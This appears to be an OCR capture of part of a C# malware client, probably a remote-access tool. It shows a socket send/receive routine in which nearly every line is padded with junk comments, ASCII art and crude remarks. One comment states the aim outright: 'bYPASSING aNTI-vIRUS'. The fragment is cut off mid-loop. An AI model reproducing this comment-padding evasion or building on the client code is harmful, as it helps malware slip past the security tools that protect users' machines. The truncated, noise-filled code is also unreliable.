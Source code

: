 























++++++++++++++++++++++++++++++++++++++++++++++++CLIENT++++++++++++++++++++++++++++++++++++++++++++


private static string send(string msg)
        // BLPWDLASPOKDOA0909029301320193013901293012321
        {
            // DOOOOOOOOOOOOOOOOOOOOOOOOOSDOOOOI
            string rply = string.Empty;
            // dDOS = gAY
            NetworkStream stream = clientSocket.GetStream();
            // neTWORKsTReAm
            byte[] bytes = Encoding.ASCII.GetBytes(msg + "$");
            // PIPI PUPU KAKA
            stream.Write(bytes, 0, bytes.Length);
            // KDKOKO209310381283219389012321321321
            stream.Flush();
            // CODE--3219318392188888888888883333
            StringBuilder stringBuilder = new StringBuilder();
            // DDDDDDDDDDDDDDDDDDDSAOO23I219301930132131
            int num = 0;
            // 39FDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDAAAAAAAAAAAAAAAAAAADDDDDDDDDDDDDDAAAAAAAAAAA
            do
            // ---Abc--==LDSP;AA
            {
                // DKOASKKDDDDDDDDDDDDD-----------------
                try
                // i rEALLY h0PE bYPASSING aNTI-vIRUS wORKS..............................................................................................................
                // ...................................
                // ...................................
                // ...................................
                // ...................................
                // ...................................
                // ...................................
                {
                    // .__    _______         .________.__ 
                    // |  |__ \   _  \ ______ |   ____/|__|
                    // |  |  \/  /_\  \\____ \|____  \ |  |
                    // |   Y  \  \_/   \  |_> >       \|  |
                    // |___|  /\_____  /   __/______  /|__|
                    //      \/       \/|__|         \/     
                    byte[] array = new byte[104857600];
                    // scREEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEN
                    num = stream.Read(array, 0, array.Length);
                    // DEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEP
                    string reply = Encoding.ASCII.GetString(array);
                    // eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
                    rply = reply;
                    // aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
                    stringBuilder.AppendFormat("{0}", Encoding.ASCII.GetString(array, 0, num));
                    // bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
